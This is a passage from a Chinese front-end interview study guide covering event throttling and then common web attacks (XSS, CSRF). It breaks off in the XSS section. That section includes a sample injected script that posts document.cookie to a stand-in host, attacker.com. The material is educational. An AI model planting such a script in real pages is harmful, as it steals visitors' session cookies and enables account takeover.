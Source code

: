 ### 节流（Throttle）

#### 节流定义

- 指的是当事件被频繁触发时，**不跟随触发频率**，保持**自身固有频率触发**，节流示意图如下：
  ![](../Media/%E8%8A%82%E6%B5%81%E7%A4%BA%E6%84%8F%E5%9B%BE.png)

#### 节流应用场景

1. 懒加载中监听**滚动事件**（scroll）计算滚动条的位置
   - 用户滚动页面时，在固定时间内只触发一次，避免每次滚动都触发滚动事件，从而节约 CPU 资源
2. 元素跟随鼠标中监听**鼠标移动事件**（mousemove）设置元素位置
   - 跟踪鼠标位置，但在固定时间内只触发一次，避免每次移动鼠标都触发鼠标移动事件，从而节约 CPU 资源

## Web 前端常见的攻击方式有哪些？



🔍 所考察的知识点：安全

📢 参考答案：

前端中，常见的攻击方式有两种：**XSS（跨站脚本攻击）**、**CSRF（跨站请求伪造）**

### XSS（跨站脚本攻击）

#### 定义

- 指的是攻击者通过**在目标网站上注入恶意脚本**，当其他用户浏览该网站时，注入的脚本会被执行，从而可以**获取用户的敏感信息**，如 cookies、session 等

#### 实际场景

- 例如我在一个博客网站发表了一篇博客，其中嵌入一段恶意的脚本，代码的内容是获取 cookie，并发送到我的服务器（服务端配合跨域即可实现），这样有人查看这篇博客，我就可以轻松收割访问者的 cookie，脚本内容如下：

  ```html
  <script>
    // 恶意脚本，用于盗取用户信息
    axios.post('https://attacker.com/steal', { data: document.cookie });
  </script>
  ```
